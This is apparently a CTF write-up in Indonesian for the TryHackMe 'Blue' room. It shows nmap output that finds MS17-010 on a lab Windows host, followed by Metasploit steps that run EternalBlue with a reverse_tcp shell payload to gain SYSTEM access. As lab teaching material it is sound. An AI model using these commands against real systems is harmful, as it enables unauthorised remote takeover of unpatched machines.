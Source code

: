 # CTF Blue
- TryHackMe Room: https://tryhackme.com/room/blue
- IP Machine: 10.10.88.234

## Nmap Report
- Baris perintah: `nmap -sV --script vuln <IP Machine>`

```sh
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV --script vuln 10.10.88.234 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-29 02:38 EDT
Nmap scan report for 10.10.88.234
Host is up (0.20s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
|_ssl-ccs-injection: No reply from server (TIMEOUT)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 145.80 seconds
```
- Dari hasil scanning, diketahui bahwa service SMB memiliki jenis kerentanan **ms17-010**


## Metasploit
- Buka `msfconsole` di terminal

- Cari modul untuk exploit jenis kerentanan ms17–010 dengan perintah `search ms17–010`

- Disini kita menggunakan modul **exploit/windows/smb/ms17_010_eternalblue** yang ada di list nomor 0. Jadi cukup gunakan perintah `use 0`

- Ketik `show options` untuk melihat daftar parameter yang perlu diisi pada modul tersebut

- Gunakan perintah `set <Nama parameter> <Value>` untuk mengisi parameter. Isi parameter RHOSTS dengan IP Machnine dan isi parameter LHOST dengan IP tun0 pada komputer yang anda gunakan. Kemudian setting payload `set payload windows/x64/shell/reverse_tcp` sesuai petunjuk soal

- Ketik `exploit` untuk memulai proses exploitasi

- Proses exploitasi berhasil dan kita masuk sebagai **nt authority\system**

- Tekan **Ctrl+Z** lalu ketik "y" untuk mengubah session 1 ke background

- Cari modul untuk mengkonversi shell sistem ke shell meterpreter di metasploit. Kita bisa gunakan perintah `search shell_to_meterpreter`

- Karena hanya ada 1 modul, langsung kita gunakan modul tersebut dengan perintah `use 0`

- Ketik `show options` untuk melihat daftar parameter yang perlu diisi pada modul tersebut
